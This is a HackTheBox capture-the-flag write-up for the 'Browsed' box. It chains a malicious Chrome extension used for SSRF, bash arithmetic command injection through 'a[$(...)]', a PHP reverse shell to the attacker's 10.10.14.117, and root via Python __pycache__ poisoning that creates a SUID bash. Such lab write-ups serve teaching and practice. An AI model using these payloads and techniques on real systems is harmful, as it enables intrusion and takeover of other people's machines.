





# Browsed - HackTheBox Writeup

## Initial Reconnaissance

Starting with a classic nmap scan to see what we're working with:

```bash
└─$ nmap -p- -sV 10.129.5.16
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

HTTP and SSH, nothing too crazy here. Let's start with the web server.

## Web Application Discovery

Landing on the page, we're greeted with "browsed.htb". I added this to my `/etc/hosts` and started exploring.


The title immediately made me think about browser CVEs, but the real kicker was the text: **"People can share their chrome version 134 based extension"** with the ability to upload extensions. Now we're talking.

The upload page had some interesting instructions: *"To send us an extension, visit the upload page to upload your chrome extension, in zip format. Make sure your files are directly inside the archive, and not in a folder!"*

I spent way too much time hunting for CVEs related to Chrome extensions. I found this one that seemed promising:

**CVE-2025-1916**: Google Chrome Use-After-Free Vulnerability in Profiles via Malicious Extension Leading to Heap Corruption. The vulnerability allows an attacker who convinced a user to install a malicious extension to potentially exploit heap corruption via a crafted HTML page.

More details at: https://www.cvedetails.com/cve/CVE-2025-1916/

But honestly, I couldn't find a working exploit. The fact that they mentioned Chrome logs should have been a hint, but I was going down the wrong rabbit hole.

## Finding the Internal Service

I decided to test what happens when an extension is processed. I crafted a simple extension to send `window.location.href` to my endpoint, and boom:

```
10.129.6.147 - - [22/Jan/2026 09:43:37] "GET /2?data=http://browsedinternals.htb/ HTTP/1.1" 404 -
```

Added `browsedinternals.htb` to `/etc/hosts` and discovered a **Gitea instance** (version 1.24.5).



There's a user named **Larry**, and a repository that caught my attention.



The README was particularly interesting: *"This webapp allows us to convert our md files to html. Still in development, it should only run locally!!!"* That last part screamed vulnerability if exposed publicly.

## Code Analysis

Looking through the repository, I found several interesting files. The `routines.sh` script seemed to run in a loop, and the `app.py` had this juicy endpoint:

```python
@app.route('/routines/<rid>')
def routines(rid):
    # Call the script that manages the routines
    # Run bash script with the input as an argument (NO shell)
    subprocess.run(["./routines.sh", rid])
    return "Routine executed !"

@app.route('/view/<filename>')
def view_file(filename):
    filename = secure_filename(filename)
    if not filename.endswith('.html'):
        return "Invalid filename", 400
    return send_from_directory(FILES_DIR, filename)

# The webapp should only be accessible through localhost
if __name__ == '__main__':
    app.run(host='127.0.0.1', port=5000)
```

The service only runs on localhost, which means I need to SSRF through the Chrome extension to reach it.

## Finding the Command Injection

While analyzing what routine ID to execute, I noticed something in `routines.sh`:

```bash
log_action() {
  echo "[$(date '+%Y-%m-%d %H:%M:%S')] $1" >> "$ROUTINE_LOG"
}
...
else
  log_action "Unknown routine ID: $1"
  echo "Routine ID not implemented."
fi
```

But the real vulnerability was in the conditional checks:

```bash
if [[ "$1" -eq 0 ]]; then
```

The `[[ ]]` construct interprets commands inside `a[$()]` even when the variable is quoted ! I tested this locally with a simplified script:



```bash
┌──(kali㉿kali)-[~/Documents/Browsed]
└─$ ./routines_s.sh 'a[$(touch proof.txt)]'
a[$(touch proof.txt)]
Temporary files cleaned.
                                                                                                                                                               
┌──(kali㉿kali)-[~/Documents/Browsed]
└─$ ls ./proof.txt                         
./proof.txt
```

Perfect! Command injection confirmed.

## Getting a Reverse Shell

Now I needed to craft a reverse shell. After many attempts (forward slashes were causing issues even when URL-encoded), I used PHP since it was installed on the system:

```bash
a[$(php -r '$sock=fsockopen("10.10.14.117",9333);exec("sh <&3 >&3 2>&3");')]
```

URL-encoded payload:
```
a%5B%24%28php%20%2Dr%20%27%24sock%3Dfsockopen%28%2210%2E10%2E14%2E117%22%2C9333%29%3Bexec%28%22sh%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27%29%5D
```

And here's the extension script (after spending DAYS figuring out I needed `mode: 'no-cors'` for the fetch - this almost drove me crazy):

```javascript
const localUri = "http://10.10.14.117:9090"
const payload = "a%5B%24%28php%20%2Dr%20%27%24sock%3Dfsockopen%28%2210%2E10%2E14%2E117%22%2C9333%29%3Bexec%28%22sh%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27%29%5D"
fetch(localUri + '/received/' + payload)

fetch(`http://127.0.0.1:5000/routines/${payload}`, {mode: 'no-cors'})
.then((res) => {
    fetch(localUri + '/1')
    return res.text()
})
.then((data) => {
    fetch(localUri + '/2')
    fetch(localUri, {
        method: 'POST',
        body: data
    })
})
.catch((e) => {
    fetch(localUri + '/error?e=' + encodeURI(e.message))
        fetch(localUri, {
        method: 'POST',
        body: e
    })
})
```

Got the reverse shell as **larry** and grabbed the user flag!



## Privilege Escalation

Checking sudo permissions:

```bash
larry@browsed:/$ sudo -l
Matching Defaults entries for larry on browsed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User larry may run the following commands on browsed:
    (root) NOPASSWD: /opt/extensiontool/extension_tool.py
```

The script was readable, and it imports from `extension_utils`. I noticed I had write access to `__pycache__`, which made me think of Python cache poisoning.

I found this perfect article about the technique: https://dollarboysushil.com/posts/python-pycache-poisoning-privilege-escalation/

The script imports:
```python
from extension_utils import validate_manifest, clean_temp_files
```

I modified `extension_utils.py` in `/tmp` to add a malicious payload:

```python
def validate_manifest(path):
    os.system("cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash")
    with open(path, 'r', encoding='utf-8') as f:
        data = json.load(f)
```

Then compiled it with the `UNCHECKED_HASH` flag:

```python
import py_compile
from py_compile import PycInvalidationMode

py_compile.compile(
    "extension_utils.py",
    cfile="extension_utils.cpython-312.pyc",
    invalidation_mode=PycInvalidationMode.UNCHECKED_HASH
)

print("[+] Unchecked-hash pyc generated successfully")
```

Copied the compiled `.pyc` file into `__pycache__/` and executed:

```bash
sudo ./extension_tool.py --ext Fontify
```

Got a SUID bash in `/tmp` and grabbed the root flag!



## Conclusion

This was exactly the kind of challenge I love - no CVE hunting required, just good old vulnerability analysis and creative exploitation. I had two main blockers: first, wasting time searching for Chrome extension CVEs when I should have focused on enumeration with what I already had. Second, the `no-cors` issue ate up SO much time because I wasn't getting clear error messages. Once I figured that out, everything fell into place quickly.

The privilege escalation was pretty straightforward once I recognized the Python cache poisoning opportunity. Overall, this was a really enjoyable box that taught me valuable lessons about SSRF, command injection in bash conditionals, and Python cache manipulation.
